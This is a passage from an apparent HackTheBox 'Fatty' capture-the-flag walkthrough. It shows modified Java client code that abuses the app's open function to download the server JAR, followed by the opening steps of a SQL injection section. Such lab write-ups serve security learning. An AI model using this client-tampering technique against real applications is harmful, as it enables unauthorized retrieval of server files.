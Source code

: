 * Modify the `open` function in `fatty-client-new.jar.src/htb/fatty/client/methos/Invoker.java` and download the file `fatty-server.jar` with the following code
```java
import java.io.FileOutputStream;
<SNIP>
public String open(String foldername, String filename) throws MessageParseException, MessageBuildException, IOException {
    String methodName = (new Object() {}).getClass().getEnclosingMethod().getName();
    logger.logInfo("[+] Method '" + methodName + "' was called by user '" + this.user.getUsername() + "'.");
    if (AccessCheck.checkAccess(methodName, this.user)) {
        return "Error: Method '" + methodName + "' is not allowed for this user account";
    }
    this.action = new ActionMessage(this.sessionID, "open");
    this.action.addArgument(foldername);
    this.action.addArgument(filename);
    sendAndRecv();
    String desktopPath = System.getProperty("user.home") + "\\Desktop\\fatty-server.jar";
    FileOutputStream fos = new FileOutputStream(desktopPath);
    
    if (this.response.hasError()) {
        return "Error: Your action caused an error on the application server!";
    }
    
    byte[] content = this.response.getContent();
    fos.write(content);
    fos.close();
    
    return "Successfully saved the file to " + desktopPath;
}
<SNIP>
```
* Rebuild the JAR file. and log in. 
* Click the open button and add `fatty-server.jar`
#### SQL Injection
* Decompile `fatty-server.jar` using JD-GUI.
* This reveals the file `htb/fatty/server/database/FattyDbSession.class` that contains a `checkLogin()` function. 